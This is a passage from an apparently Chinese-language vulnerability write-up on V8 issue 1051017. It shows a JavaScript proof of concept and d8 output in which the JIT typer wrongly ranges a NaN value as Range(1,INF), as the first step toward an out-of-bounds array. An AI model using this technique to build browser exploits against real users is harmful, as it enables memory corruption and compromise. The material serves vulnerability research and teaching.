 如果两个值分别为`-V8_INFINITY`和`+V8_INFINITY`，那么经过`type = Type::Union(type, Operand(node, i), zone());`操作，type类型为`NaN`与JS层面保持一致。



## 0x03 issue 1051017 漏洞利用

### <a class="reference-link" name="OOB%E6%95%B0%E7%BB%84%E6%9E%84%E9%80%A0"></a>OOB数组构造

首先，在原有的基础上加入一个数组

```
function opt(index) `{`
    var a = [1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8,9.9];
    var x = -Infinity;
    var i = 0;
    for (; i &lt; 1; i += x) `{`
        if (i == -Infinity) x = +Infinity;
    `}`
    //compiler:Range(1,INF)
    //reality:NaN
    var x = Math.max(i,1);
    return x;
`}`

%PrepareFunctionForOptimization(opt);
print(Object.is(opt(), NaN));
print(Object.is(opt(), NaN));
%OptimizeFunctionOnNextCall(opt);
print(Object.is(opt(), NaN));
```

运行结果并无差异

```
root@ubuntu:~/Desktop/v8/out.gn/x64.debug# ./d8 p.js --allow-natives-syntax
true
true
true
```

我们查看一下IR图<br>
可以发现在`Typer`阶段，`var x = Math.max(i,1);`这句已经形成了一个节点为`Range(1,inf)`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01ab096c1218a67a43.png)

我们再来看一下加入修复补丁以后的v8运行的IR图，修复后其值为`NaN`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0154391966a37b1944.png)

现在的情况是编译器认为其值为`Range(1,INF)`，而真实值为`NaN`
